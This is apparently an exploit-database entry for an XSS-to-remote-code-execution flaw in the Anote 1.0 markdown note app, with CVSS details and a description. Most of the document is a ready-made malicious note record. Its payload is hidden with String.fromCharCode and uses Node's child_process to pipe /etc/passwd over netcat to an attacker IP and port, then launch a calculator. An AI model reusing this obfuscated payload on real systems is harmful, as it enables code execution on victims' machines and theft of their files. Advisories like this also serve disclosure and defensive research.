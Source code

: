 EXP
---

    # Exploit Title: Anote 1.0 - XSS to RCE
    # Exploit Author: TaurusOmar
    # Date: 04/05/2021
    # CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
    # Risk: High (8.8)
    # Vendor Homepage: https://github.com/AnotherNote/anote
    # Version: 1.0
    # Tested on: Linux, MacOs

    # Software Description:
    A simple opensource note app support markdown only, anote allows you to view and edit files markdown has a friendly interface for paste image paste html (includes retrieve image locally) export sale file with images
    export PDF support tray menu quick note (evernote inspired)
    cmd + v default will convert html.



    # Vulnerability Description:
    The software allows you to store payloads within its own editor, as well as upload (.md) files once malicious code is entered, the payload will be executed immediately.
    The attacker can send a malicious file with the payload, when this file is opened, the chain will be executed successfully giving access to
    the remote attacker to get remote execution on the computer.


    #Proof Video
    https://imgur.com/a/mFMDOuu




    # Payload : exec(Attacker Reverse netcat stolen => /etc/passwd) && exec(calc)

    {"bookId":"ddpQIk8Fhmoyr2wK","available":true,"_id":"VDJCb2CaIHObFXlw","createdAt":{"$$date":1620076429201},"updatedAt":{"$$date":1620076529398},"title":"XSS TO RCE","content":"[<audio src=x onerror=writeln(String.fromCharCode(10,60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,10,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,49,49,49,46,49,50,57,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,10,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,10,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,10,97,108,101,114,116,40,39,49,39,41,34,62,60,115,99,114,105,112,116,62,10,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,10,60,47,115,99,114,105,112,116,62))>](http://)"}
    {"$$indexCreated":{"fieldName":"updatedAt","unique":false,"sparse":false}}
    {"$$indexCreated":{"fieldName":"bookId","unique":false,"sparse":false}}
